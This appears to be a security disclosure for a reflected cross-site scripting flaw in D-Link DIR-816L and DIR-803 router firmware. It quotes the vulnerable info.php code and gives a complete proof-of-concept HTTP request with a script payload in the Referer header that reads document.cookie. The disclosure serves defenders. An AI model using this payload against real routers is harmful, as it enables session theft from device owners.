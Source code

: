 # XSS discovered in the D-link Firmware DIR-816L&DIR-803 #



## Vulnerable Firmware Versions ##
**DIR-816L REVB1 2.06 & 2.06.B09_BETA(Lastest) 
DIR-803  REVA  1.04.B02 (Lastest)**

*DIR-815 REVB 2.07.B01 & DIR-860L REVA 1.10B04 & DIR-645 REVA 1.06B01 & DIR-865L REVA 1.08B01 may also be affected.*

## Vulnerability Details ##
A Reflected Cross-site scripting vulnerability exists in DIR-816L and DIR-803, due to an unescaped `HTTP_REFERER` value being printed on the webpage.

## SYNOPSIS ##
In file **webinc/js/info.php**,there exists no output filtration being applied to the `HTTP_REFERER` parameter, before it's printed on the webpage.

## Analysis ##

	From info.php:

    $referer = $_SERVER["HTTP_REFERER"];
    		if($referer == "")
    			$referer = "./index.php";
    		
    		if($_GET["REASON"]=="ERR_REQ_TOO_LONG")
    		{
    			
    			$message = "'".i18n("The action requested failed because the file uploaded too large.")."', ".
    						"'<a href=\"".$referer."\">".i18n("Click here to return to the previous page.")."</a>'";
    		}
    		
    		echo "\t\tvar msgArray = [".$message."];\n";
    		echo "\t\tBODY.ShowMessage(\"".$title."\", msgArray);\n";
    ?>  },

So

	POC：
    GET /info.php?REASON=ERR_REQ_TOO_LONG&RESULT=1 HTTP/1.1
    Host: 192.168.0.1
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: keep-alive
    Cookie: uid=94UDHPkJzD
    Upgrade-Insecure-Requests: 1
    Referer: "><svg/onload=alert(document.cookie)>

![dir816l_xss.png](https://i.loli.net/2020/08/29/HpNArtTjm4hq6Zo.png)

![dir803_xss.png](https://i.loli.net/2020/08/29/PajBvAbKDIkJ4cQ.png)


